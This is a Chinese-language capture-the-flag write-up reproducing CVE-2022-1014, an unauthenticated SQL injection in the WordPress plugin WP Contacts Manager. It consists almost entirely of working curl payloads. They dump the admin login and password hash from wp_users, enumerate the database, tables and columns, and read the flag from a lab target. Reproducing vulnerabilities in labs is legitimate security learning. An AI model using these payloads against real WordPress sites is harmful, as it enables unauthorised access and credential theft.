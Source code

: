 ```yaml
---
title: CVE-2022-1014【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

[WP Contacts Manager <= 2.2.4 - Unauthenticated SQLi](https://wpscan.com/vulnerability/eb9e202d-04aa-4343-86a2-4aa2edaa7f6b/)

wordpress插件 WP Contacts Manager <= 2.2.4 对用户输入的转义不够充分，导致了SQL注入。

## 2. 漏洞复现

### 2.1. POC

```shell
curl 'http://127.0.0.1:8080/wp-admin/admin-ajax.php?action=WP_Contacts_Manager_call&type=get-contact' --data '{"id":"1\u0027 UNION ALL SELECT 1,(SELECT user_login FROM wp_users WHERE ID = 1),(SELECT user_pass FROM wp_users WHERE ID = 1),4,5,6,7,8,9,0,1,2; -- "}'
```

### 2.2. 查数据库

```shell
curl 'http://ec……chunqiu.com/wp-admin/admin-ajax.php?action=WP_Contacts_Manager_call&type=get-contact' --data '{"id":"1\u0027 UNION ALL SELECT 1,(SELECT database()),3,4,5,6,7,8,9,0,1,2; -- "}'
```

![0.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310080954353.png)

### 2.3. 查数据表

注，将库名 ctf 16进制编码后或直接用database()代入查询

```shell
curl 'http://eci……1.ichunqiu.com/wp-admin/admin-ajax.php?action=WP_Contacts_Manager_call&type=get-contact' --data '{"id":"1\u0027 UNION ALL SELECT 1,(SELECT group_concat(table_name) from information_schema.tables where table_schema=database()),3,4,5,6,7,8,9,0,1,2; -- "}'
```

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310080951682.png)

### 2.4. 查字段

注，flag 的16进制编码：0x666c6167【后端应该有过滤，直接用表名 flag 返回null】

```shell
curl 'http://ec……ci1.ichunqiu.com/wp-admin/admin-ajax.php?action=WP_Contacts_Manager_call&type=get-contact' --data '{"id":"1\u0027 UNION ALL SELECT 1,(SELECT group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x666c6167),3,4,5,6,7,8,9,0,1,2; -- "}' 
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310080951104.png)

### 2.5. 读取 flag

```shell
curl 'http://e……1.ichunqiu.com/wp-admin/admin-ajax.php?action=WP_Contacts_Manager_call&type=get-contact' --data '{"id":"1\u0027 UNION ALL SELECT 1,(SELECT flag from flag),3,4,5,6,7,8,9,0,1,2; -- "}' 
```

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310080951197.png)
